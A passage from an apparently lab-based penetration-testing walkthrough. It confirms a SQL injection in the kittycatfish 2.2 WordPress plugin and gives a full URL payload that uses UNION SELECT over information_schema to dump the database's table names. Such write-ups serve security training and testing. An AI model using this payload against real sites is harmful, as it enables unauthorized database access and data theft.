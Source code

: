 <a href="/images/ptl-27.png"><img src="/images/ptl-27.png"></a>

Awesome! Now we know that the SQL Injection is viable - so let's attempt to dump the tables from the database with the following code.

```
http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16+union+select+0x6b635f61645f637373,%28SELECT%20GROUP_CONCAT%28table_name%29%20FROM%20information_schema.tables%20WHERE%20table_schema=database%28%29%20GROUP%20BY%20table_name%20LIMIT%200,1%29
```

